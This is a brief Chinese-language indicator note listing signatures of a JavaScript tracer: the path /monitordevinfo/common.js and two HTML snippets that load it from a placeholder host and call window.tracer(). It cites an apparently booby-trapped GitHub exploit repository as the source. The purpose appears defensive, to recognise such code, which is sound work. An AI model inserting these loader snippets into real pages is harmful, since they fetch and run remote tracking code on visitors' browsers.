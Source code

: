 特征：
```
/monitordevinfo/common.js
```
加载js特征：
```
<script>window.onload=function(){let script=document.createElement("script");script.src="http://xxx/monitordevinfo/common.js";document.body.appendChild(script);script.onload=function(){setTimeout(()=>{window.tracer()},1000)}}</script>
```
```
<script async type="text/javascript" src="http://xxx/monitordevinfo/common.js"></script>
```
来源：

[https://github.com/fuckjsonp/FuckJsonp-RCE-CVE-2022-26809-SQL-XSS-FuckJsonp](https://github.com/fuckjsonp/FuckJsonp-RCE-CVE-2022-26809-SQL-XSS-FuckJsonp)

[https://web.archive.org/web/20220730055436/https://github.com/fuckjsonp/FuckJsonp-RCE-CVE-2022-26809-SQL-XSS-FuckJsonp](https://web.archive.org/web/20220730055436/https://github.com/fuckjsonp/FuckJsonp-RCE-CVE-2022-26809-SQL-XSS-FuckJsonp)
